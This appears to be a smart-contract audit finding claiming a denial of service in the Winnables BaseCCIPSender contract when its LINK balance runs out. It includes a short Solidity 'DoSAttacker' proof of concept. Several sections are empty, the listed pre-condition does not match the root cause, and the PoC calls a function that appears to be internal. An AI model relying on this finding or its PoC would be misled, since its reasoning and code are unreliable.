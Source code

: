 Sour Denim Alpaca

Medium

# Denial of Service (DoS) via Insufficient LINK Balance at BaseCCIPSender  contract

### Summary

Line : https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/BaseCCIPSender.sol#L15

 If the contract does not hold enough LINK tokens, the _sendCCIPMessage function will revert, potentially causing a denial of service (DoS) if it is relied upon by other functions or systems.

### Root Cause

LINK balance management

### Internal pre-conditions

_No response_

### External pre-conditions

Running out of gas

### Attack Path

_No response_

### Impact

_No response_

### PoC

Attacker Contract
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.24;

import "./BaseCCIPSender.sol";

contract DoSAttacker {
    BaseCCIPSender public vulnerableContract;

    constructor(address _vulnerableContract) {
        vulnerableContract = BaseCCIPSender(_vulnerableContract);
    }

    function triggerDoS() public {
        // Attempt to send a CCIP message with minimal data
        bytes memory data = "Attack";
        uint64 ccipDestChainSelector = 1; // Assume chain selector 1 is valid
        address ccipDestAddress = address(0x123); // Fake destination address

        // This call will fail if the LINK balance is insufficient
        vulnerableContract._sendCCIPMessage(ccipDestAddress, ccipDestChainSelector, data);
    }
}


### Mitigation

Monitor LINK Balances: Implement a mechanism to monitor and manage LINK balances, ensuring the contract is always sufficiently funded.
Graceful Fallback: Instead of reverting, consider a fallback mechanism that queues messages or notifies users when the balance is insufficient, rather than completely halting operations.